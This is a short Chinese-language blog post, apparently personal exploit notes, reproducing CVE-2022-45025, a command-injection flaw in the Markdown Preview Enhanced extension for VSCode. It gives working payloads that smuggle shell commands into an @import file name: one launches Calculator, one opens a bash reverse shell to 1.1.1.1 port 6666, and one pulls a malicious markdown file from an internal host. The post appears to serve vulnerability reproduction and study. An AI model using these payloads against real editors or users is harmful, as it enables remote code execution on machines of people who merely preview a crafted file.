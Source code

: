 ```yaml
---
layout: post
title: Vscode命令执行
abbrlink: 13ee3d6333644fbfaaf93711544d97b6
tags: []
categories:
  - 漏洞挖掘与复现
  - 操作系统
date: 1735134702345
updated: 1735134702346
---
```


```python
CVE-2022-45025

漏洞是由于Markdown Preview Enhanced for VSCode插件没有对pdfFilePath参数的输入内容进行控制，因此我们传入恶意命令，参数拼接起来加上开启了 { shell: true }，从而导致了命令执行漏洞的产生。(https://github.com/shd101wyy/mume/blob/7135d7606a6a57de6e2372c26a2f16bb98ecf2b2/src/pdf.ts)

https://github.com/yuriisanin/CVE-2022-45025
```

```python
@import "$(open -a Calculator > /dev/null | exit 0)test.pdf"
```

![1670761130274-583dd206-5abd-4b24-a705-71e05f6eb693.png](/resources/9f695a86ee284b7dbe5e24577c4d0d1d.png)

```python
@import "$(bash -c 'bash -i >& /dev/tcp/1.1.1.1/6666 0>&1'| exit 0) test.pdf
```

```python
<!-- @import "http://10.211.55.6/test.md" -->

test.md内容：
<!-- @import "$(open -a Calculator > /dev/null | exit 0)test.pdf" -->
```

> 更新: 2024-06-05 17:16:19\
> 原文: <https://www.yuque.com/yuqueyonghuwrqimt/vtxvff/qx5gluf7yaienoei>

